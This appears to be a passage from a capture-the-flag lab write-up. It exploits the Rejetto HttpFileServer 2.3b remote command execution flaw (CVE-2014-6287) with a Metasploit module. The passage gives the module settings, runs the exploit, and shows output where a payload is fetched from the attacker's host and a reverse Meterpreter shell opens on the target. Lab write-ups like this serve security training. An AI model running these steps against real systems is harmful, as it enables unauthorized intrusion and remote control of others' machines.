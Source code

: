 We found a module which is successfully tested on the version 2.3b. So, we will use this.

```python
Description:
  Rejetto HttpFileServer (HFS) is vulnerable to remote command execution attack due to a
  poor regex in the file ParserLib.pas. This module exploits the HFS scripting commands by
  using '%00' to bypass the filtering. This module has been tested successfully on HFS 2.3b
  over Windows XP SP3, Windows 7 SP1 and Windows 8.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2014-6287
  OSVDB (111386)
  https://seclists.org/bugtraq/2014/Sep/85
  http://www.rejetto.com/wiki/index.php?title=HFS:_scripting_commands
```

We will set all the required options.

```python
set rhost 10.10.70.179
```

```python
set rport 8080
```

```python
set lhost tun0
```

Run the exploit.

```python
exploit
```

```python
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.6.10.164:4444 
[*] Using URL: http://10.6.10.164:8080/okBb9lTf
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /okBb9lTf
[*] Sending stage (175686 bytes) to 10.10.70.179
[!] Tried to delete %TEMP%\cGZQGuu.vbs, unknown result
[*] Meterpreter session 1 opened (10.6.10.164:4444 -> 10.10.70.179:63844) at 2024-05-23 23:14:00 -0400
[*] Server stopped.

meterpreter > sysinfo
Computer        : STEELMOUNTAIN
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```

